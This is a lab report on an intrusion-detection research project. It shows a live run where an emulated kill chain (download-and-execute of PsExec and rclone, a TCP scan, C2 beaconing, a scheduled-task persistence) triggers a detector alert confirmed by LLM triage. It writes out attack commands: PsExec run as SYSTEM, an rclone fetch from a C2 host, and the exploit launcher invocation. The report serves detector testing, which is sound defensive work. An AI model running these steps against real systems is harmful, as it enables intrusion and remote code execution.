

# Demo report: real-tool download+exec → live RED (2026-11-05)

**Status: the end-goal demo works live on Proxmox.** A real attack run raised a true, LLM-confirmed alert
while benign windows stayed green — the cleanest result in the project to date. This report documents what
was built, how it runs, the live result with evidence, and the honest caveats.

Related: plan/rationale `docs/notes/real-tool-download-exec.md`; status `docs/PROGRESS.md`; deviations
`docs/DEVIATIONS.md` D6 (attack/labels) + D8 (live inference); FP history `[[live-detector-benign-fp]]`.

---

## 1. Summary

- **End goal (CLAUDE §8):** demonstrate the paper's core concept live — a real attack goes red, benign
  stays green, and the LLM investigates.
- **What changed this round:** the attack's T1105 phase now **downloads *and executes* real benign tools**
  (Sysinternals PsExec, rclone), instead of writing inert marker files that were never run.
- **Why it matters (the key insight):** the detector's graph keys FILE nodes by a hash of the path and NET
  nodes by `ip:port` — there is **no file-content feature** (CLAUDE §9). So real binaries on disk add
  nothing over markers. The added signal comes only from **executing** the tools: real tool processes +
  their sockets are new nodes unseen in the idle baseline, so they flag. This raises the score **honestly
  through attacker behaviour, not detector tuning** (the earlier NET ×2 weight was rolled back; SG-Det
  stays paper-faithful).
- **Result (live, 2026-11-05 00:50Z, exp07):** attack window **RED** — 18 flagged nodes, one connected
  subgraph, `max_sg_score` **15.40** (Moderate), `alert=True`; **LLM triage `attack` conf 0.85**. Benign
  windows green; the red is attack-specific.

---

## 2. What was built

### Attack side (`src/atomic-attack-pack/`)
- **Kali staging** (`src/ansible/roles/kali_attack/`): at provision time (Kali has internet), the role
  downloads the real Windows binaries into `/opt/attack-pack/tools/win/` (gitignored, never committed):
  `PsExec64.exe` (Sysinternals, 833 KB) and `rclone.exe` (85 MB). Each tool has a pinned URL; an empty URL
  skips it. nmap/ncat are **off by default** (Windows packaging is fragile) → the chain falls back to the
  PowerShell TCP sweep. Idempotent: `get_url force:no` + `unzip … creates:` ⇒ re-run `changed=0`.
- **Stage server** (`tools/launch_exploit.py`): serves the real bytes from `tools/win/` when present, and an
  inert labelled **marker** otherwise (so the offline selftest and any skipped tool still work). `--selftest`
  reports which tools are real vs marker.
- **Kill chain** (`scenarios/rce-killchain.ps1`): after downloading, it **executes** the tools, each
  timeout-guarded by a new helper `Invoke-ToolWithTimeout` (runs only a real PE — detects a marker by the
  `MZ` header and skips it — with a hard timeout so nothing hangs):
  - `PsExec64.exe -accepteula -nobanner -s cmd /c whoami` → `PsExec64 → PSEXESVC → cmd → whoami` as SYSTEM.
  - `rclone.exe copyurl <C2>/tool.bin <toolsdir>\pulled.bin` → real `rclone.exe` process + a NET fetch to C2.
  - nmap/ncat best-effort (skipped when only markers were served).
  The existing T1046 TCP sweep is kept as the always-on NET-breadth fallback.
- **Cleanup** (`cleanup-all.ps1`): stops `PsExec64/PSEXESVC/rclone/nmap/ncat`, deletes the `PSEXESVC`
  service, removes the tools dir + markers, kills leftover RCE shells. (DB phase is read-only — nothing to undo.)

### Full chain (ATT&CK)
Delivery T1190/T1059.001 → Discovery T1033/T1082/T1057/T1016 → **Scan T1046** (TCP sweep, + real nmap when
staged) → **Ingress+Exec T1105/T1569.002** (download+run real tools) → **DB T1552/T1213** (read-only MySQL
dump) → **C2 T1071** (beacon loop, `--attack-seconds 180`) → **Persistence T1053.005** (`UpdaterSync` task).

---

## 3. The live run

- **Setup:** ws-etw idle on exp07, `ocr-live` at `moderate_from 10`, DeepSeek LLM on (budget 0/15). Pack
  deployed to Kali (`ansible-playbook -i proxmox.ini kali.yml`, `changed=0`, binaries verified as real PEs).
- **Launch** (from Kali, at the 00:50:00Z window boundary):
  `python3 -I /opt/attack-pack/tools/launch_exploit.py --target http://10.21.3.10:3000 --attack-seconds 180`
- **Observed on the wire:** exploit HTTP 200; ws-etw fetched `attack-lib.ps1`, `killchain.ps1`,
  **`PsExec64.exe` + `rclone.exe` (real)** + `nmap.exe`/`ncat.exe` (markers), `tool.bin` ×2 (T1105 + the
  rclone `copyurl`), and 8 `/beacon` GETs.

---

## 4. Result (evidence)

Window `20261105T005000Z`, session `live-20261104T235407Z`:

| window | alert | flagged | subgraphs (kept) | max_sg | level |
|---|---|---|---|---|---|
| 00:40Z | False | 0 | 0 | 0.0 | — |
| 00:45Z | False | 1 (file) | 0 | 0.0 | — |
| **00:50Z (attack)** | **True** | **18 (11 file + 7 net)** | **1 (1)** | **15.40** | **Moderate** |

**The one kept subgraph holds the real attack nodes** (decoded from `node_attrs.csv`):
- NET: C2 `10.21.4.30:8080`; scan hits `10.21.3.11:22`, `10.21.3.20:22`, `10.21.3.50:22`, `10.21.4.30:22`;
  DB `10.21.3.10:3306`.
- PROCESS: `c:\users\public\tools\rclone.exe` (the real tool we executed), `powershell.exe`.
- FILE: RAS/proxy DLLs the network activity pulled in (`rasapi32.dll`, `prxyqry.dll`, `rtutils.dll`,
  `rasman.dll`, `ondemandconnroutehelper.dll`, `wshqos.dll.mui`), .NET/PowerShell NI DLLs, and the PS
  startup-profile file.

**LLM triage (`llm/triage.json`): `attack`, confidence 0.85**, tactics TA0011 (C2, T1071) / TA0010
(Exfiltration, T1048) / TA0002 (Execution, T1059.001). Rationale (verbatim):

> "PowerShell spawns rclone.exe from a user-writable public tools directory, and rclone then reads and
> writes a system DLL MUI file while exchanging traffic with an external host on port 8080. Rclone is a
> known exfiltration/staging tool, and the combination of a LOLBin launching it, file staging, and
> repeated C2-like socket traffic to 10.21.4.30:8080 indicates adversary behaviour rather than routine
> updater activity."

The full Alg. 2 report is in `llm/sg0_report.md` (maps the story to Internal Recon / C2 / Lateral
Movement / Exfiltration / Persistence).

**Live UI of the attack window** (flagged file/net nodes with score + margin, and the LLM Attack Report +
IOC table) — the C2 `10.21.4.30:8080` is the top NET signal (margin **1.69**), the scan SSH hits and the
DB sit just over τ (margin ~0.09–0.56), and `mysql.exe`/PsExec sit below τ:



### Why this beats the earlier runs

| run | max_sg | alert | subgraph | LLM | attack-specific? |
|---|---|---|---|---|---|
| exp06 2026-11-03 | 9.0 | no | fragmented | n/a | — |
| exp07 2026-11-04 14:55Z | 8.49 | no | 1 | n/a | — |
| exp07 2026-11-04 15:50Z (richer) | 11.70 | yes | 2 | **uncertain** | no (admin burst also red) |
| **exp07 2026-11-05 00:50Z (real-tool exec)** | **15.40** | **yes** | **1 connected** | **attack 0.85** | **yes** |

---

## 5. Honest assessment (CLAUDE §6: runs / works / understand)

**Works, and understood:** the attack separates cleanly from idle, the flagged subgraph *is* the attack,
and the LLM confirms it with correct IOCs. The lift came from a specific, explainable cause — executing
`rclone.exe` created the process + C2-socket nodes that anchored the subgraph.

**Caveats (do not overclaim):**
1. **PsExec ran but contributed nothing.** Its `PsExec64 → PSEXESVC → cmd → whoami` tree is present in
   `node_attrs.csv` but scored below τ and was not in the kept subgraph. The win came from **rclone + the
   scan/C2/DB**, not PsExec.
2. **nmap/ncat were markers** (not staged by default), so the NET breadth came from the PowerShell TCP
   sweep — the designed fallback, working as intended.
3. **Thin 5-min idle model:** the level is Moderate, not Significant; margin 15.40 vs the cut-off 10. An
   idle baseline is thin, so real benign activity can still false-positive (the known FP mode).
4. **One recorded live run.** Not a rate; a replay/soak would be needed before any quantitative claim.
5. **Lab-only and benign:** real but non-malicious signed tools, read-only DB, isolated host-only subnets,
   Defender off, disposable VM; no mimikatz / credential-theft malware.

---

## 6. Reproduce

```bash
# 1. deploy the pack + stage the real binaries on Kali (idempotent)
cd src/ansible && ansible-playbook -i proxmox.ini kali.yml

# 2. keep ws-etw idle; launch just after a 5-min window boundary, from Kali
python3 -I /opt/attack-pack/tools/launch_exploit.py --target http://10.21.3.10:3000 --attack-seconds 180

# 3. read the attack window in the live UI / API (ocr-live on the trainer, :8000)
curl -s "http://10.21.3.20:8000/api/windows/<WID>"     # flagged / subgraphs / max_sg_score / alert / llm

# 4. clean up on ws-etw (RDP, elevated PowerShell) — or run cleanup-all.ps1
schtasks /delete /tn UpdaterSync /f
Remove-Item 'C:\Users\Public\tools','C:\Users\Public\downloaded_tool.bin' -Recurse -Force -ErrorAction SilentlyContinue
```

Staging is reproducible: `tools/win/` is gitignored; `kali.yml` re-fetches the binaries. Repo selftests
17/17; launcher `--selftest` and the Kali deploy verified.

---

## 7. Open / next

- **≥24 h idle soak of exp07** across its daily jobs — still the only true idle test of exp07 itself.
- A **thinner-vs-thicker baseline** decision remains (D2): the baseline that keeps idle green is the same
  that keeps the attack near the threshold. Getting a *robustly* Significant, large-margin attack is open.
- Optionally stage a working portable **nmap** to add a real scan process; and investigate why **PsExec**
  scores below τ (likely its process image is close to in-distribution PowerShell/cmd activity).
